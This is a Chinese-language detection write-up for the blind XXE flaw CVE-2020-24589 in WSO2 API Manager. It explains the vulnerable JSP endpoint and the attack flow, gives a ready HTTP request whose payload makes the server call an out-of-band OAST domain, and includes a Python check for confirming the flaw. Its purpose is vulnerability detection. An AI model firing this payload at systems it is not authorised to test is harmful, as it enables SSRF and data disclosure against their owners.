

# WSO2 API Manager <=3.1.0 XXE盲注漏洞（CVE-2020-24589）检测说明

## 漏洞简介

WSO2 API Manager 3.1.0及以下版本存在盲XML外部实体注入（Blind XXE）漏洞。攻击者可通过构造恶意XML数据包，诱使服务器解析外部实体，进而访问服务器敏感文件或与内网/外部系统交互，造成信息泄露、拒绝服务或SSRF等危害。

## 影响范围

- 产品：WSO2 API Manager
- 影响版本：<= 3.1.0
- CVE编号：CVE-2020-24589
- 危害等级：Critical

## 漏洞原理

/carbon/generic/save_artifact_ajaxprocessor.jsp接口未对XML实体进行安全处理，攻击者可通过payload参数注入外部实体定义，诱使服务器发起对外部URL的请求，实现盲XXE攻击。

## 利用方式与攻击流程

1. 攻击者构造带有外部实体的XML数据包，payload中包含指向OAST平台（如interactsh）的URL。
2. 服务器端解析XML时加载外部实体，向OAST平台发起HTTP请求。
3. 攻击者通过OAST平台接收到请求，确认漏洞存在。
4. 响应体返回特定错误信息，辅助判定。

## 探测原理与流程

### 探测请求的构造

```http
POST /carbon/generic/save_artifact_ajaxprocessor.jsp HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded

payload=<?xml version="1.0" ?><!DOCTYPE a [ <!ENTITY % xxe SYSTEM "http://<oast域名>">%xxe;]>
```

- payload参数注入外部实体，尝试让服务器请求OAST域名。

### 预期响应与交互

- OAST平台收到来自目标的HTTP请求（协议为http）。
- 响应体包含`Failed to install the generic artifact type`。

### 判定逻辑

```python
def is_vulnerable(interactsh_result, response):
    if 'http' in interactsh_result['protocol'] and 'Failed to install the generic artifact type' in response.text:
        return True
    return False
```

### 检测流程Mermaid图



## 参考链接

- [WSO2官方安全通告](https://docs.wso2.com/display/Security/Security+Advisory+WSO2-2020-0742)
- [NVD官方漏洞库](https://nvd.nist.gov/vuln/detail/CVE-2020-24589)
- [ARPSyndicate模板](https://github.com/ARPSyndicate/kenzer-templates)
- [WSO2-CVE-Extractor](https://github.com/athiththan11/WSO2-CVE-Extractor) 